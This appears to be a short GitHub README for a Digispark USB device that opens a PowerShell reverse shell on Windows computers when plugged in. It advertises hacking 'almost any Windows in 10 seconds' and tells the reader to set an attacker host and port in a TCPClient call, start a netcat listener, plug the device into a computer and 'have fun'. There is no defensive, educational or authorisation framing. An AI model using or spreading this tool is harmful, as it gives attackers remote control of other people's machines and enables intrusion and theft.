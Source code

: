 # Arduino-Digispark-PS-reverse-shell
> Hack almost any Windows in 10 seconds with Digispark reverse connection payload.

## Usage
- First you must change HOST and PORT in PS-reverse-shell.ino and finally load the program in Digispark;<br>
E.g: `...Net.Sockets.TCPClient('192.168.0.15',4444)...`

- Start handler to get reverse connection;<br>
E.g: `nc -lvp 4444`

- Plug Digispark on computer;

- Have fun :)


## Project Status
Project is: _in progress_.

